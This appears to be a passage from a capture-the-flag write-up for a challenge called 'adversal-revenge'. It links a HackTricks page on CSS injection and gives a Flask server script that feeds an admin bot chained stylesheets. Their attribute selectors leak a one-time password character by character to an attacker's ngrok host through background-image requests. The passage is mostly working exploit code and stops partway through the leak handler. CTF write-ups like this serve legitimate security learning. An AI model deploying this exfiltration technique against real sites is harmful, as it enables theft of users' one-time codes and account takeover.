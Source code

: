 ![](Pasted%20image%2020230323041128.png)

## adversal-revenge

[https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection](https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection "https://book.hacktricks.xyz/pentesting-web/xs-search/css-injection")

```python
from flask import Flask, request
import string
import time

app = Flask(__name__)

HOST = 'https://....ngrok.io'
OTP = ''


# Send the generated payload here to the admin bot
@app.route('/ad')
def ad():
    payload = ''
    for i in range(12):
        payload += f'<link rel="stylesheet" href="{HOST}/{i}" />'
    return payload, 200, {'Content-Type': 'text/plain'}


@app.route('/<int:style_i>')
def style(style_i: int):
    global OTP
    css = ''
    while len(OTP) != style_i:
        time.sleep(0.5 * style_i)
    for c in string.digits + string.ascii_letters:
        css += f'input[name=otp][value^={OTP}{c}] {{ background-image: url({HOST}/leak?otp={OTP}{c}); }}\n'
    return css, 200, {'Content-Type': 'text/css'}


@app.route('/leak')
def leak():
    global OTP
```